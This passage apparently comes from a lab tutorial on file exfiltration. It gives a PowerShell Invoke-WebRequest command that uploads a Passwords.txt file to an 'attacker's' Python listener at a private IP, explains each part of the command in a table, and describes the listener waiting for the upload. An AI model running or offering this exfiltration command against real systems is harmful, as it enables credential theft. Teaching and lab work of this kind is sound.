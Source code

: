 
This is the full PowerShell command to upload the `Passwords.txt` file to the attacker's Python server:
 ```powershell
powershell -c "Invoke-WebRequest -Uri http://192.168.78.129:8080/Passwords.txt -Method Put -InFile 'C:\Users\IEUser\Documents\Passwords.txt'"
# ⚠️ Make sure to change the IP address, port number, and file path to match your attack setup.
```
### Command Breakdown below:
<div align="left">
  <sub><strong>(Figure 11)</strong></sub><br>

  <table>
    <thead>
      <tr>
        <th>Component</th>
        <th>Purpose</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td><code>powershell -c</code></td>
        <td>Runs the command within PowerShell</td>
      </tr>
      <tr>
        <td><code>Invoke-WebRequest</code></td>
        <td>Sends HTTP requests; here it’s used to upload a file</td>
      </tr>
      <tr>
        <td><code>-Uri</code></td>
        <td>The destination URL (your Python listener endpoint)</td>
      </tr>
      <tr>
        <td><code>-Method Put</code></td>
        <td>HTTP method used to upload the file</td>
      </tr>
      <tr>
        <td><code>-InFile</code></td>
        <td>Specifies the local file path to be uploaded</td>
      </tr>
    </tbody>
  </table>
</div>



*In Figure 12, we can see in the second terminal it's running the Python upload server on port 8080, and you'll notice it’s still idle. For this demo, the folder containing the Python script has been opened and placed at the bottom of the screen. The reason: if anything gets uploaded, we’ll see it appear here in real-time. As of now, there is only the Python script in the directory.*<br>
<br><sub>(Figure 12)</sub><br>